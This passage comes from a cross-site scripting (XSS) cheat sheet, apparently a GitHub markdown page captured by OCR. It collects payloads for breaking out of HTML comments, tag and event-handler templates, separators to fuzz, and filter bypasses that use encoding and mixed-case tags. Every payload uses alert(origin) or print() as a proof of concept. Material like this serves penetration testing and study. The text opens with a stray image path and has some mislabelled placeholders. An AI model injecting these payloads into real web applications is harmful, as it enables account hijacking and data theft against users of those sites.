   ```html
  ```
- Example
  ```html
  --><svg/onload=alert(origin)>                        <!--     <!-- xxx -->
  <!--><svg/onload=alert(origin)-->                    <!-->xxx-->
  <%00script>alert(origin)<%00/script>                 <!--     <h2> Does not exist record with id 123 ! </h2>                   -->
  ```
##### Executable
- Don't HTML-encode `<`. (3rd golden tip)
  ```html
  <{tag}{filler}{event_handler}{?filler}={?filler}{javascript}{?filler}{>,//,Space,Tab,LF}    # Line Feed
  <sCriPt{filter}sRc{?filte}={?filter}{url}{?filter}{>,//,Space,Tab,LF}
  <A{filter}hReF{?filler}={?filter}JavaScript:{javascript}{?filter}{>,//,Space,Tab,LF}
  ```
  ```html
  <img/src/onerror%0a=alert(origin)>
  <a href="%26%2374;avascript%26colon;alert(origin)">test</a>
  <a href="%26%2374;avascript%26colon;\u0061lert(origin)">test</a>          # Unicode a in alert based on 2nd golden tip.
  ```
- `{filter}`  →  seprator
- `{?filter}`  →  Fuzz to find appropriate seprator
  ```html
  {space}
  //
  /
  %0a
  %0d
  %09
  %09%09
  /~/
  ```
- Test cases
  ```html
  <x/xxx
  <x/~/xxx
  <x/~/onxxx
  ```
- Example
  ```html
  </h1><script>alert(origin)</script>                    <!--     <h1 id="h1">XSS Gym</h1>                                        -->
  <img src=x onerror=alert(origin)>                      <!--     <body><div class=container><div id=main><h2>Hello xxx !</h2>    -->
  ```  
- Browser HTML-encode `<` of our payload  →  Use **Double-URL-encode** or **HTML-encode**.
- Web-app filter (blacklist) our tag  →  Fuzz for new tagsbased on [PortSwigger Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
  ```html
  <details open ontoggle=alert(origin)>                  <!--     <h6>Registred phone: test</h6>                                  -->
  <DeTaiLs/OpEn/OnTogglE=alert(origin)>
  <DeTaiLs/OpEn/OnTogglE=print()>
  ```
